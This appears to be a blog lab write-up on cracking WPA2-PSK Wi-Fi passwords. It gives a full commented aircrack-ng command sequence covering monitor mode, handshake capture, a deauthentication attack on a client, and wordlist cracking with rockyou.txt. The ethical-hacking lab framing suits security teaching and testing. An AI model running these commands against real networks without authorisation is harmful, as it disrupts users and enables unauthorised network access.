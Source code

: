 ```yaml
---
title: Password Cracking WPA2-PSK Networks
author: Tarus
date: 2023-06-02 16:51:00 +0300
categories: [Labs]
tags: [WPA2, wifi, mac address, kali linux, airmon-ng]
---
```


## What Activities Ethical Hackers perform on Wireless Networks
- Evaluating strength of PSK
- Reviewing nearby networks, rogue devices
- Assessing guest networks
- Checking network access

## Tools used
- Wireless card that supports dual band, monitor mode and packet injection. => [Plug and Play Wireless card](https://amzn.to/3RQ6XCr)
- Router
- Laptop

## Hacking Process
![Hacking Process](/assets/wpa2.png)

```plaintext
iwconfig                        #check the wireless network configurations, check if usb wireless card is working
airmon-ng check kill            #kill processes that may interfere with what we are about to do
airmon-ng start wlan0           #allows wireless card to monitor incoming traffic, where "wlan0" is name of your wireless card
iwconfig                        #confirm whether monitor mode has been enabled

airodump-ng wlan0mon            #finding the wireless network we want to specifically attack

#bssid - mac address of access point
#PWR(power level) - the lower the number the closer we are to the device
#beacons and data - show traffic happening on those bssids

airodump-ng -c 6 --bssid 50:C7:BF:8A:00:73 -w capture wlan0mon     #tries to capture the 3 way handshake
#-c = channel of the device
#-w capture = name of the file where the capture will be stored

#to speed the above process, do the deauth attack
#open another terminal
aireplay-ng -0 1 -a 50:C7:BF:8A:00:73 -c 50:C7:BF:8A:00:74 wlan0mon       #will deauthanticate this device 50:C7:BF:8A:00:74 from the network to capture the 3 way handshake
#-0 = deauth attack
#1 = only one time
#-c = client we want to deauth

aircrack-ng -w wordlist.txt -b 50:C7:BF:8A:00:73 capture.cap              #tries capturing the password by comparing it to a wordlist
#-b = Acess Point mac address

wireshark capture.cap              #monitor captured traffic in wireshark, search for eapol

aircrack-ng capture.cap -w /usr/share/wordlists/rockyou.txt             #using a popolar wordlist with over 1 million entries
```

This attack will only work when the WPA2-PSK network uses **WEAK PASSWORDS**
